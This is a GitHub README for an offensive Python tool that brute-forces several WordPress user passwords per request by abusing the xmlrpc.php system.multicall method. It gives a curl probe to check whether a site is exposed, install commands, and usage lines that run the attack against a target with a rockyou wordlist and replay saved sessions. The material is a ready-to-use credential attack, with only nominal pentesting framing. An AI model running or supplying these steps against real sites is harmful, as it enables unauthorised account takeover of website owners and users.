

# WP Multi-User Bruteforce
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.




## How does it work?


The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).


## Testing the vulnerability


Run this command, replacing `wordpress-blog.com` with your website:


```
YOURBLOG=http://your-blog.com/xmlrpc.php
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST $YOURBLOG
``` 

See if the response is an XML with all functionalities available, like: 


```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```


If yes, it's probably vulnerable.


## Installation


```
pip install requests
curl https://raw.githubusercontent.com/entr0pie/xmlrpc-multi-request/main/xmlrpc.py | tee xmlrpc.py 
```


## Usage


### Using the default wordlist (rockyou.txt)


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```


### Setting an wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```


### Start the bruteforce with an specific word inside the wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```


### Using the config.json file:


By default, xmlrpc.py saves in the `config.json` the last session:


```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "wordlist":"/usr/share/wordlists/rockyou.txt",
    "word":"mcfly",
    "debug":"False"
}
```


You can replay that session running:


```
python3 xmlrpc.py --config config.json
``` 


## License


This project is under [GNU GPLv3](LICENSE).
